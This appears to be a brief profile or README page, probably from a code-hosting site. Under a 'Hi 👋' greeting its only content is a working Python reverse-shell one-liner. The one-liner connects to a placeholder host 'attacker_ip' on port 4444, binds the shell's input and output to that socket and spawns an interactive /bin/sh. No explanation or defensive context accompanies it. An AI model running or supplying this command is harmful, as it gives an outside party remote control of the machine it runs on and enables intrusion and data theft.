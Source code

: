 ## Hi 👋
python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("attacker_ip",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"]);'

